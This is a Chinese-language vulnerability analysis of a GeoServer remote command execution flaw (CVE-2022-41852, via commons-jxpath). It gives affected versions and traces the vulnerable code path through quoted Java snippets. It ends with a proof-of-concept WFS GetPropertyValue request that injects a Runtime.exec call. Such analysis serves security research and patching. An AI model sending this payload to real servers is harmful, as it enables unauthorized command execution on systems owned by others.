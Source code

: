 #GeoServer #Commons-Jxpath
## 影响范围
- GeoServer < 2.23.6
- 2.24.0 <= GeoServer < 2.24.4
- 2.25.0 <= GeoServer < 2.25.2

## 漏洞成因
调用commons-jxpath 1.3 导致命令执行 commons-jxpath漏洞编号CVE-2022-41852

## 漏洞分析
在`org/geoserver/wfs/GetPropertyValue.java`第99行geotool的evaluate方法

```JAVA
try {  
  
    PropertyName propertyName =  
            filterFactory.property(request.getValueReference(), getNamespaceSupport());  
    PropertyName propertyNameNoIndexes =  
            filterFactory.property(  
                    request.getValueReference().replaceAll("\\[.*\\]", ""),  
                    getNamespaceSupport());  
    AttributeDescriptor descriptor =  
            (AttributeDescriptor)  
                    propertyNameNoIndexes.evaluate(featureType.getFeatureType());  
    boolean featureIdRequest =  
            FEATURE_ID_PATTERN.matcher(request.getValueReference()).matches();  
    if (descriptor == null && !featureIdRequest) {  
        throw new WFSException(  
                request, "No such attribute: " + request.getValueReference());  
    }  
  
    // create value collection type from feature collection  
    ValueCollectionType vc = Wfs20Factory.eINSTANCE.createValueCollectionType();  
    vc.setTimeStamp(fc.getTimeStamp());  
    vc.setNumberMatched(fc.getNumberMatched());  
    vc.setNumberReturned(fc.getNumberReturned());  
    vc.getMember()  
            .add(  
                    new PropertyValueCollection(  
                            fc.getMember().iterator().next(), descriptor, propertyName));  
    return vc;  
} catch (IOException e) {  
    throw new WFSException(request, e);  
}
```


在`org/geotools/filter/AttributeExpressionImpl.java`调用了漏洞api`FeaturePropertyAccessorFactory.FeaturePropertyAccessor#get()`

```JAVA
if (accessors != null) {  
    for (PropertyAccessor propertyAccessor : accessors) {  
        accessor = propertyAccessor;  
        try {  
            value = accessor.get(obj, attPath, target);  
            success = true;  
            break;  
        } catch (Exception e) {  
            // fine, we'll try another accessor  
            if (exceptions == null) {  
                exceptions = new ArrayList<>();  
            }  
            exceptions.add(e);  
        }  
    }  
}
```

![](attachments/Pasted%20image%2020241013162054.png)

![](attachments/Pasted%20image%2020241013162448.png)

## POC
```shell
GET /geoserver/wfs?service=WFS&version=2.0.0&request=GetPropertyValue&typeNames=sf:archsites&valueReference=exec(java.lang.Runtime.getRuntime(),'cmd')
```
